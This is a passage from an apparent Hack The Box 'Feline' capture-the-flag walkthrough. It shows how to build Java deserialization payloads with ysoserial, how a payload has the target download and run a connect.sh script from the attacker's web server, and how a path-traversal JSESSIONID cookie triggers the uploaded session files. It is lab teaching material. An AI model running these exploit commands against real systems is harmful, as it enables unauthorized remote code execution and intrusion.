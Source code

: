 > **NOTE:** The name of the jar file make be different when you download it. If that is the case, be sure to modify the name of the jar file in the command.

This will create a file in our working directory named `get.session` that has a java serialized payload that will run the curl command to download the connect.sh file from our machine and store it in the `/tmp` directory on the target.

Next we will do the same, this time with the command to run the script and saving it in a file named `run.session`.

``` bash
java -jar ysoserial-master-138dc36bd2-1.jar CommonsCollections2 'bash /tmp/connect.sh' > run.session
```

![](/assets/images/htb-feline/10_feline_run.session.png)

Now upload both the `get.session` and `run.session` files using the sample analysis upload functionality on the site. And then the fun part starts!

>**NOTE:** There seems to be a job on the server that will regularly clear the files added to the uploads directory. If at some point the steps bellow are not working, first try to reupload your session files.

From your working directory, run the following command to start a python web server in your wokring directory.

``` bash
python3 -m http.server 80
```

And now run the following curl command to pass the `get.session` file that we uploaded as the session ID.

``` bash
curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JSESSIONID=../../../opt/samples/uploads/get'
```

![](/assets/images/htb-feline/11_feline_get.session_curl.png)

Don't be alarmed by the error, we should expect this, because what happed was that it found our session (the get.session payload), and then tried to use it. But out session simply told the machine to curl back to our attacking machine to get the connect.sh and then save it in /tmp. We can confirm this by seeing that our python web server received the request.
